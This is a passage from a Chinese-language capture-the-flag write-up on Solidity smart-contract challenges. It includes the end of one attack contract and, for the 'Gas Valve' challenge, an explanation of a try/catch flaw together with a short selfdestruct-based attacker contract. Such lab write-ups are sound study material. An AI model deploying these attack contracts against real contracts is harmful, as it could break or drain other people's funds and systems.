 ```Solidity
        bomb.destroy(address(victim));
        victim.setInvincible();
        victim.destroyIt(spell,magic);
    }
}
```

此时gas要给高一点，不然会出现outOfGas。

PS： Remix体验简直是糟糕！浪费我很多时间！

<hr />

# 6. Gas Valve

这一题要注意：`model no. EIP-150`，有解释如下：`使用ADD这样的简单操作相对于复杂计算操作，例如用SHA256加密一个特定的数字，会消耗较少的gas。攻击者通过在他的交易合同中不断的使用某些特定的opcodes使得整个交易变得计算复杂却在网络上消耗极少的费用。`

问题在这里

```solidity
        try nozzle.insert() returns (bool result) {
            lastResult = result;
            return result;
        } catch {
            lastResult = false;
            return false;
        }
```

当抛出异常才会认为失败，否则即使`result=false`也会直接返回。

其实思路很简单，如何消耗完所有的`gas`呢？尝试循环调用直到达到最大深度，结果失败（抛出了异常）。查看<a href="https://ethereum.stackexchange.com/questions/594/how-do-gas-refunds-work">Gas Refund</a>可以看到，`selfdestruct`会立马触发`gasRefund`，而不会抛出异常。

攻击合约如下：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

contract ValveHacker {

    constructor() {

    }

    function insert() public returns (bool result) {
        selfdestruct(payable(msg.sender));
    }

}
```

<hr />

